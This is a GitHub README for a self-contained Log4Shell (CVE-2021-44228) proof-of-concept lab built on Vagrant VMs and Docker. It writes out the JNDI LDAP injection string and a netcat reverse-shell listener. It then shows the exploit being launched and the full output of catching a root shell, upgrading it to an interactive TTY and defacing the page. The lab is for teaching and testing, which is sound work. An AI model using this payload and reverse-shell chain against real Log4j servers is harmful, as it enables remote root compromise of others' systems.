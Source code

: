 # Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- Download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## Credentials

| Login   | Passwd  | VM      |
| :------ | :------ | :------ |
| vagrant | vagrant | all     |
| debuser | log123  | deblab  |
| kauser  | log123  | kalilab |

## Video walkthrough

[![Watch the video](https://i.imgur.com/wp5n82t.png)](https://youtu.be/nLZ8yn0Lc_E)

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up deblab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision deblab`

**Note**:

You can connect with ssh: `vagrant ssh deblab`

## Lab environment

Open the deblab GUI and login with debuser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
```

#### Terminal 2: Launch exploit

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/; ls
Dockerfile                 LICENSE    requirements.txt
jdk1.8.0_20                poc.py     target
jdk-8u20-linux-x64.tar.gz  README.md  vulnerable-application

debuser@deblab:/log4jlab$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for debuser: 

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/

debuser@deblab:/log4jlab$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in f07313c7813c
Removing intermediate container f07313c7813c
 ---> 0aa3d79eeb7c
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> 3236fc49ad3d
Step 4/5 : EXPOSE 8080
 ---> Running in b73e25384301
Removing intermediate container b73e25384301
 ---> 709b6daec9b1
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in a390bc35dbb4
Removing intermediate container a390bc35dbb4
 ---> bb22ea172197
Successfully built bb22ea172197
Successfully tagged log4j-shell-poc:latest

debuser@deblab:/log4jlab$ docker run --network host log4j-shell-poc
25-May-2022 17:29:07.563 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-13-amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-May-2022 17:29:07.567 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-May-2022 17:29:07.569 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-May-2022 17:29:07.616 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:07.621 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:07.622 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 345 ms
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-May-2022 17:29:07.652 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-May-2022 17:29:07.751 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-May-2022 17:29:08.005 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-May-2022 17:29:08.025 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 373 ms
25-May-2022 17:29:08.030 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:08.055 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:08.056 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 433 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/deblabimg/1.poc-log4shell-dl.png)

The hack succeeded when the netcat listener gives:

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
```

### Hack along

You can check your access, switch to interactive shell and do your log4shell afterhackings ..

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@deblab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
debuser@deblab:/log4jlab$ stty raw -echo; fg; reset
nc -lvnp 9001

root@deblab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@deblab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```

![poc log4shell](img/deblabimg/2.poc-log4shell-dl.png)

### Reference

- Automated environment using vagrant with a [ansible skeleton](https://github.com/bertvv/ansible-skeleton) built by bertvv
- Log4j CVE-2021-44228 poc [githubRepo](https://github.com/kozmer/log4j-shell-poc) built by kozer
- Log4j CVE-2021-44228 testing tools [URL](https://log4shell.tools/) and [gitRepo](https://github.com/alexbakker/log4shell-tools) built by Alexander Bakker
